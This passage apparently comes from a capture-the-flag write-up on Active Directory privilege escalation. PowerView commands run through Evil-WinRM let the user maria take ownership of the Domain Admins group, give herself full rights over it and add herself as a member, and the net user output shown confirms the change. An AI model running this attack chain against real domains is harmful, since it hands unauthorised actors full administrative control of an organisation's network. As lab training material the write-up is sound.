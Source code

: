 ## Shell with Domain Admins

### Takeover Domain Admins Group

maria has `WriteOwner` on the Domain Admins group. From the help in BloodHound, this means maria can change the owner of the group.

I’ll import `PowerView.ps` and then assign maria as the owner of the group:

```
*Evil-WinRM* PS C:\programdata> Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'maria'

```

I think there are some weird timing issues that can come up running this command that causes the command to fail (likely some cleanup cron setting the permissions back). Waiting a minute and running again worked.

As owner, maria can give maria full rights over the group:

```
*Evil-WinRM* PS C:\programdata> Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity maria -Rights All

```

Now maria can add themself to the group:

```
*Evil-WinRM* PS C:\programdata> Add-DomainGroupMember -Identity 'Domain Admins' -Members 'maria'

```

It worked:

```
*Evil-WinRM* PS C:\programdata> net user maria
User name                    maria
Full Name                    maria garcia
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/21/2021 8:16:32 PM
Password expires             Never
Password changeable          10/22/2021 8:16:32 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 C:\\programdata\\cmd.ps1
User profile
Home directory
Last logon                   2/28/2022 3:51:46 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Domain Admins        *Domain Users
The command completed successfully.

```

